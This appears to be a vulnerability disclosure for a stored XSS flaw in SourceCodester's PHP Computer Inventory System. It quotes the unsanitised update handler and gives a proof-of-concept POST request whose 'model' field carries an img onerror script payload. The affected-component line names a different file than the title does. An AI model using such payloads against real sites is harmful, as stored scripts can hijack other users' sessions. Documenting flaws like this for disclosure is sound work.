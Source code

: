 # SOURCECODESTER / Computer Inventory System - update-computer.php STORED XSS

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/17165/computer-inventory-system-using-php-and-mysql-source-code.html

## Affected Component
> /endpoint/update-resident.php

## Code
```php
if (isset($_POST['model'], $_POST['serial_number'], $_POST['date_purchased'], $_POST['warranty_expiration'], $_POST['operating_system'], $_POST['ram'], $_POST['rom'])) {
        $computerID = $_POST['tbl_computer_id'];
        $model = $_POST['model'];
        $sn = $_POST['serial_number'];
        $datePurchased = $_POST['date_purchased'];
        $warrantyExpiration = $_POST['warranty_expiration'];
        $operatingSystem = $_POST['operating_system'];
        $ram = $_POST['ram'];
        $rom = $_POST['rom'];

        try {
            $stmt = $conn->prepare("UPDATE tbl_computer SET model = :model, serial_number = :serial_number, date_purchased = :date_purchased, warranty_expiration = :warranty_expiration, operating_system = :operating_system, ram = :ram, rom = :rom WHERE tbl_computer_id = :tbl_computer_id");

```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /endpoint/update-computer.php HTTP/1.1
Host: [REDACTED]
Content-Type: application/x-www-form-urlencoded
Content-Length: 132

tbl_computer_id=7&model=%3E%3Cimg+src%3Dx+onerror%3Dalert%28%27NoChizPlz%27%29%3E&serial_number=696969&date_purchased=2024-02-01&warranty_expiration=2024-02-28&operating_system=Windows&ram=8&rom=8
```

## Screenshot


